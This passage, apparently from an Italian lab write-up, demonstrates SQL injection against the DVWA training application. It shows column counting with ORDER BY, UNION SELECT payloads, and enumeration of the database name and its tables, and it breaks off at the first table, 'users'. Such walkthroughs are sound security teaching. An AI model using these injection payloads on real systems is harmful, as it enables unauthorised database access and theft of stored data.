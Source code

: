 **Risultato**:
- `ORDER BY 2`: Successo
- `ORDER BY 3`: Errore

**Conclusione**: La tabella ha **2 colonne**.

#### Test UNION con Placeholder

```sql
-1' UNION SELECT null,null -- -
```

#### Injection con Dati Personalizzati

```sql
-1' UNION SELECT 1, 'pwned' -- -
```

**Output**:
```
ID: -1' UNION SELECT 1, 'pwned' -- -
First name: 1
Surname: pwned
```

**Spiegazione**:
- `-1`: Forza query originale a non restituire risultati
- `UNION SELECT`: Unisce risultati con query personalizzata
- `1, 'pwned'`: Valori iniettati nelle due colonne
- `-- -`: Commenta resto della query

### Database Enumeration

#### Identificazione Database

```sql
-1' UNION SELECT null, database() -- -
```

**Output**:
```
ID: -1' UNION SELECT null, database() -- -
First name: 
Surname: dvwa
```

**Risultato**: Nome database è `dvwa`.

#### Enumerazione Tabelle

```sql
-1' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema='dvwa' LIMIT 0,1 -- -
```

**Prima tabella**:
```
Surname: users
```
